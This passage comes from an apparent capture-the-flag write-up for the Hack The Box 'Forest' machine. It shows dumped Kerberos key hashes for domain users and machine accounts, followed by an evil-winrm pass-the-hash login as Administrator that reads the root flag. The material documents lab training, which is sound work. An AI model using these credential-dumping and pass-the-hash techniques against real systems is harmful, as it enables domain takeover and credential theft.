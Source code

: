 ```bash
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
miguel:aes256-cts-hmac-sha1-96:c082f34484cf7a8c4fafed3cb3fab456551438f400e8a836fe30e9a3a2b3a198
miguel:aes128-cts-hmac-sha1-96:0a35c924365ab52d452d8888e8406463
miguel:des-cbc-md5:ad2967864f0ba4ab
FOREST$:aes256-cts-hmac-sha1-96:04af0b7895e8e4203acc82fd2b98f3084ca35e75977c18481fe386a6b43dd74f
FOREST$:aes128-cts-hmac-sha1-96:77d766d46c2c692a2c9e0e16fb4d22ce
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

## Root flag && Shell as Administrator 

```bash
❯ evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
22123ef2e8b61fe523663bcbb7f231e8
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

